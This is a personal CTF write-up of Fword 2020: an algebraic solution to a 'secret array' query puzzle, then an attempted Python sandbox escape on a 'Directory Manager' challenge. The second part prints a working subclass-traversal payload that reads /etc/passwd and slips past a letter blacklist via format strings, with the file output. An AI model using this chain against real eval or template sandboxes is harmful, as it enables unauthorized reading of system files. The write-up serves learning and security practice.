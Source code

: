 ```yaml
---
image: "./fwords_score.png"
toc: true
layout: post
description: Stuff I learnt from the fwords.wtf 2020 ctf.
categories: [ctf, security]
title: Fword 2020 CTF write-up
---
```


![Final leaderboard](./fwords_score.png)

This was one of the first CTFs I've competed in, and I'm pretty happy with the performance we obtained. I worked on two problems, one which I didn't get in the end. But it was still a great learning experience. I definitely got carried by the other people in my team, who did really well in the `pwn` section.

## Problem 1 - Secret Array

**TL;DR**

- use `pwntools` to interface with the IP and port, not netcat, as there is no easy way to pipe python output to netcat
- **DON'T name your file something generic like `pwn.py` or `numbers.py`, as those are internally used by `pwntools`, and will result in failures DX**
- don't overengineer your answers, occam's razor
- installation steps:

```bash
virtualenv venv
. venv/bin/activate
pip install pwntools
```

The problem was hosted in a server, and netcat was used to access it.
`nc secretarray.fword.wtf 1337`

The problem stated that there were 1337 unknown numbers in an array, and we were allowed to query the server with 2 valid indices, which would return the sum of the two numbers in the array at those indices. We were allowed to query the server 1337 times.

At first glance, I immediately felt like this would be a great opportunity to use `np.linalg.solve`, as the problem was essentially a really big simultaneous equations problem, so at first I made arbitrary guesses of the form:

```python
for i in range(1337):
    if i == 1336:
        print(f"0 1336")
    else:
        print(f"{i} {i+1}")
```

This yielded a list of 1337 numbers, which I turned into a numpy array. I also converted my guesses into a numpy matrix like so:

```python
matrix = np.zeros((1337,1337))
for i in range(1337):

    if i == 1336:
        matrix[i,i] = 1
        matrix[i,0] = 1
    else:
        matrix[i,i] = 1
        matrix[i,i+1] = 1

matrix = matrix.astype('float64')
ans = np.linalg.solve(matrix, res)
for a in ans:
    print(a)
```

However, I immediately realised this wasn't going to work when I was getting floats as my answers...

So instead, I decided to rethink my strategy, since the simulataneous equations were quite simple:

- Let every element in the array be labelled like $a_{i}, i \in 1,2,...,N, \text{where } N=1337$.
- Thinking for a simple case, where $N=3$, we see that for the following chosen indices:

$$
\begin{cases}
a_0 + a_1 = b_0 \qquad (1)\\
a_0 + a_2 = b_1 \qquad (2)\\
a_1 + a_2 = b_2 \qquad (3)
\end{cases}
$$

- We can simply solve these by computing $(1)-(2) \equiv a_1 - a_2 = b_0 - b_1$, adding this to $(3)$, we obtain

$$
\begin{cases}
a_0 = b_0 - a_1 \\
a_1 = \frac{b_0 - b_1 + b_2}{2} \\
a_2 = b_0 - a_2
\end{cases}
$$

By solving this simplest case, we get a values for $a_0, a_1, a_2$ and we can easily extend this scenario to $N=4$ by taking the 4th simultaneous equation to be

$$
\begin{aligned}
a_2 + a_3 &= b_3 \\
\therefore a_3 &= b_3 - a_2
\end{aligned}
$$

So I just coded this:

```python
with open('output.txt','r') as f:
    data = f.readlines()

data = [int(d[:-1]) for d in data] #strip newline

# solve the first 3
answers = [0 for _ in range(1337)]

answers[1] = (data[0]-data[1]+data[2])/2
answers[0] = data[0]-answers[1]
answers[2] = data[2]-answers[1]

for i in range(3,1337):
    answers[i] = data[i]-answers[i-1]

# checking
assert(answers[0]+answers[1] == data[0])
assert(answers[0]+answers[2] == data[1])
assert(answers[1]+answers[2] == data[2])
for i in range(3,1337):
    assert(answers[i-1]+answers[i] == data[i])

print("DONE "+" ".join(str(a) for a in answers))
```

Now, when I was trying to get `pwntools` to work, I had made the moronically called the file `pwn.py` which was an internal file used in `pwntools`, so it failed, I eventually got my friend to run the code above and he got the flag :S.

## Problem 2 - Directory Manager

This one was really hard and involved a Server Side Template Injection in python. I didn't get it this time, but here are some things I found out that might prove useful in later CTFs.

### Recon

I just kept trying different inputs, here are some examples of what I got

```
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
dir
<built-in function dir>
```

Some more examples include:

```
dir: <built-in function dir>
file: <type 'file'>
exit: Use exit() or Ctrl-D (i.e. EOF) to exit
anything where the second letter is an s: Thank you !
[]: []
['hello']: []
['qwertyuiopadfghjklzxcvbnm,./;[]\-=1234567890!@#$%^&*()_+{}|:"<>?']: ['qwertyuiopadfghjklzxcvbnm,./;[]\-=1234567890!@#$%^&*()_+{}|:"<>?']
```

Ultimately, from the output interpretations of `dir` and `file`, I was pretty sure python code was executing. However, interestingly any input that contained the letter 's' would fail with `Thank you !`.

### Intro to SSTI

In a previous challenge, I performed Server Side Template Injection (SSTI) and remote code execution (RCE) through a Flask template input by exploiting the fact that `file` is a built in type, and that there were certain builtin class functions that let you go from any one class to any other class.

```python
>>> [].__class__
<type 'list'>
```

Here, we can abuse the `.__class__` method to obtain a reference to the list object type.

```python
>>> [].__class__.__base__
<type 'object'>
```

We can go further and obtain the object class like so.

```python
>>> [].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

We can actually find the `file` type, by taking the 40th element in this list:

```python
>>> [].__class__.__base__.__subclasses__()[40]
<type 'file'>
```

And finally, we can use this type as a function to read and print a file.

```python
>>> [].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nfword:x:1000:1000::/home/fword/:/bin/bash\nmessagebus:x:101:101::/nonexistent:/usr/sbin/nologin\n'
```

### no 's'

Now you can probably see why banning the letter 's' would be problematic, as the letter 's' appears in all the builtin functions we used to grab the file type.

However, fear not, as security engineers always find a way!

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
[dir()]
[['__builtins__', '__doc__', '__file__', '__name__', '__package__', '__warningregistry__', 'conn', 'inp', 'isallowed', 'ldap']]
```

I found I was able to evaluate the `dir()` function if it was contained in a list, and lo and behold! the first element of this list has the letter 's' in it~

I grabbed this 's' to see if it would pass whatever black listing was happening behind the scenes:

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
dir()[0][9]
s
```

Bingo. Now, I just used the string `format` function to craft the payload shown in the previous section:

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
[eval('[].__cla{0}{0}__.__ba{0}e__.__{0}ubcla{0}{0}e{0}__()'.format(dir()[0][9]))[40]('/etc/pa{0}{0}wd'.format(dir()[0][9])).read()]
['root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nfword:x:1000:1000::/home/fword/:/bin/bash\nmessagebus:x:101:101::/nonexistent:/usr/sbin/nologin\n']
```

Although I was able to read `/etc/passwd`, as well as some other common files like `.bashrc`, without access to the `os` library, I was unnable to get a list of the directory, to know which file to target.

### Failures

I tried a lot of different things, here's how they worked out:

- I can `eval` but I am blacklisted from running `exec`, or running `eval(compile())`, which means I cannot import.
- I can use `__import__(os).listdirs()` but this is blocked from running, and black listed.
  Really, I spent a few hours testing random directories and possible file names for the flag, but without access to `ls`, I am really at a loss for knowing which file to target. Hence I was unable to get the flag in the end.
